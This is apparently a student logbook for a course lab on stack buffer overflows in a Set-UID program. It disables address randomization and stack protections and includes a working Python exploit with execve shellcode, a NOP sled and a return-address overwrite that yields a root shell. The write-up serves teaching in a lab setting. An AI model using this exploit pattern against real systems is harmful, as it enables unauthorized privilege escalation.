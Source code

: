 ## Buffer-Overflow Attack Lab - Set-UID Version



Setup of the system:

Disabling the address randomization:

> $ sudo sysctl -w kernel.randomize_va_space=0

Changing shell create a symbolic link from /bin/sh to /bin/zsh, making our future attack easier:

> $ sudo ln -sf /bin/zsh /bin/sh


### Task 1

We compiled the ```call_shellcode.c```file and ran the -m32 and 64 versions:

![Image 1.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task1LOGBOOK5_32.png)

*Image 1 - m32 shell.*


![Image 1.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task1LOGBOOK5_64.png)
-
*Image 2 - 64 shell.*

The shell opened successfully in both.

### Task 2

Before compiling the vulnerable program, we disabled the StackGuard and the
non-executable stack protections and made it a root-owned Set-UID program.

> $ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c

> $ sudo chown root stack 

> $ sudo chmod 4755 stack 



Next, we changed the value of the L1 variable acoording to our group number:

![Image 1.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task2LOGBOOK5.png)

*Image 3 - L1 variable.*

And ran ```make stack-L1``` successfully.


### Task 3

To exploit the buffer-overflow vulnerability, we needed to know the distance between the buffer's start and the return address. Using GDB, we set a breakpoint in the vulnerable function and checked the base pointer (EBP) and buffer address. This allowed us to calculate the offsets needed to create a payload that overwrites the return address, letting our shellcode execute.

After executing the commands provided in the guide, we obtained the following output:

![Image 1.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task3_LOGBOOK5_1.png)



Next, we modified the file ```exploit.py``` as follows:

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode) - 1                # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffca0c + start           # Change this number 
offset = 0xffffcaa8 + 4 - 0xffffca0c   # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```



Explanation of the modifications: 

> start = (517 - len(shellcode) - 1)
Here, we placed the shellcode at the end of the buffer, to ensure there is enough space for the entire payload:

> ret = 0xffffca0c + start 

This calculates the distance between the base pointer (0xffffcaa8) and the buffer (0xffffca0c), telling us how far we need to go in the payload to overwrite the return address:
> offset = 0xffffcaa8 + 4 - 0xffffca0c 

Finally we obtained the expected result and the attack was successfully done:
![Image 1.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task3_LOGBOOK5_2.png)



